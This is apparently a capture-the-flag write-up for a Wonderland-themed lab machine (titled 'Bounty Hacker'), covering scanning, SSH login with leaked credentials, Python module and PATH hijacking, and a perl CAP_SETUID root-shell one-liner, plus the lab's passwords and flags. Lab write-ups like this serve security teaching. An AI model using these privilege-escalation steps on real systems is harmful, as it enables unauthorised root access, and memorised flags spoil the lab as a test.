 <head>
<h1><center>Bounty Hacker</center></h1>
</head>

## Description

<img src="./images/des.png">

<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are two open ports on the machine.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

<img src="./images/web.png" width="500">

Directory Scan shows

```
200      GET      http://10.10.234.26/main.css
301      GET      http://10.10.234.26/index.html
200      GET      http://10.10.234.26/img/white_rabbit_1.jpg
200      GET      http://10.10.234.26/
200      GET      http://10.10.234.26/img/alice_door.png
200      GET      http://10.10.234.26/img/
301      GET      http://10.10.234.26/img/index.html
200      GET      http://10.10.234.26/r/a/b/b/i/t/
```

After wandering around the website, I found the creds for user `alice` in the source code of the page `/r/a/b/b/i/t/`.

<img src="./images/creds.png">

<br>


## SSH

Using the credentials we got in the source code, we can login to SSH.

```
username: alice
password: HowDothTheLittleCrocodileImproveHisShiningTail
```

Now first things first, I checked the users on the machine

```
1. root
2. hatter
3. rabbit
4. alice
5. tryhackme
```

I checked for the **SUID** bits but nothing useful.
But `sudo -l` showed something interesting.

```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Here alice can run the above python script as user `rabbit`.

<br>

## Alice

The Python script consists of a poem of around 100 lines.

It is using `random` module to select 10 lines and print them.

```
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Here we need a bit of understanding about importing modules..

Whenever a module is imported, python interpreter checks the current directory for the module and then proceeds for the PATH.

So we can abuse this by creating our own random module. 

This is the script `random.py`

```
import os

def choice(arg):
    os.system("/bin/bash")
```

If we run `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` we get the shell as user `rabbit`.

<br>

## Rabbit

Checking the rabbit's home directory shows a compiled binary `teaParty` owned by user `hatter` with **SUID** bit set on it..🥳

Decompiling the binary, we can see that it is using `date` command without absolute path.

<img src="./images/decompile.png">

We can use this to get the shell as the user `hatter`.

As we did earlier with the module random, we can create our own date script and add that directory at the start of **$PATH**.
This invokes our script instead of the actual `date` binary.

script

```
#!/usr/bin/python3.6

import os
os.system("/bin/bash")
```

Here since we have write permissions on the `/home/rabbit/` directory, I am creating the script there.
Else we have to do this in `/tmp`.

Don't forget to give the execute perms.

> chmod +x date

To add the path to **$PATH** we run the following command.

```
export PATH=/home/rabbit:$PATH
```

Now running the above script gives us the shell as user `hatter`

<br>

## Hatter

When we check the home directory of the user `hatter` we can see his password.

```
WhyIsARavenLikeAWritingDesk?
```

Now this is where I have taken most of the time..

At last I used [linpeas](https://linpeas.sh).
There is an interesting result

<img src="./images/linpeas.png" width="400">

Here `perl` has **CAP_SETUID** capability set on it.

Heading over to GTFObins gave this command

```
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

We need to run the above command in `/usr/bin/`.
That gives us root shell..💀

<br>

user flag

```
thm{"Curiouser and curiouser!"}
```

root flag 

```
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```
